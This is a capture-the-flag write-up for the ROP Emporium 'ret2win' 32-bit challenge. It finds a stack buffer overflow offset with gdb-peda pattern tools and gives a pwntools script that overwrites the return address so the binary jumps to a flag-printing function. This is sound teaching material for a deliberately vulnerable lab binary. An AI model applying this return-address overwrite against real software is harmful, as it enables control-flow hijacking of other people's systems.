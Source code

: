 # ret2win - 32bit

This challenge just involves a very simple overwriting of the return pointer to a function of our choice.

After looking inside the binary a function called `ret2win` that will print us our flag.

All we have to do is find the vulnerable buffer length and insert the address of `ret2win` into the instruction pointer to exploit the binary.

Using `gdb` we can use the `pattern` functionality to find the buffer len:

```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

```
gdb-peda$ r
Starting program: /root/GitHub/ROP_Emporium/0x00_ret2win/32-bit/ret2win32 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd3a0 ("'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAA")
EBX: 0x0 
ECX: 0xf7fad89c --> 0x0 
EDX: 0xffffd3a0 ("'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAA")
ESI: 0xf7fac000 --> 0x1d9d6c 
EDI: 0xf7fac000 --> 0x1d9d6c 
EBP: 0x30414161 ('aAA0')
ESP: 0xffffd3d0 --> 0xf7fe0041 (sub    DWORD PTR [edi],ecx)
EIP: 0x41464141 ('AAFA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41464141
[------------------------------------stack-------------------------------------]
0000| 0xffffd3d0 --> 0xf7fe0041 (sub    DWORD PTR [edi],ecx)
0004| 0xffffd3d4 --> 0xffffd3f0 --> 0x1 
0008| 0xffffd3d8 --> 0x0 
0012| 0xffffd3dc --> 0xf7decb41 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd3e0 --> 0xf7fac000 --> 0x1d9d6c 
0020| 0xffffd3e4 --> 0xf7fac000 --> 0x1d9d6c 
0024| 0xffffd3e8 --> 0x0 
0028| 0xffffd3ec --> 0xf7decb41 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$
```

Then we use the value at the bottom (`0x41414641 in ?? ()`) in with pattern to find the value.

```
gdb-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
```

Then finding the address of `ret2win` and adding to the end of the junk we pass in.

The gives us this exploit:

```python
import sys; sys.path.append("../..")
import shared_pwn
from pwn import *

BINARY_NAME = "ret2win32"
BUFFER_LEN = 44

io = process(f"./{BINARY_NAME}")

junk = b"\x90" * BUFFER_LEN

# Pointers
win_addr = p32(0x08048659)

# Payload creation
payload = b""
payload += junk
payload += win_addr

io.recvuntil("> ")
io.send(payload)
io.send("\n")
shared_pwn._recvall(io)
```

That prints us the flag!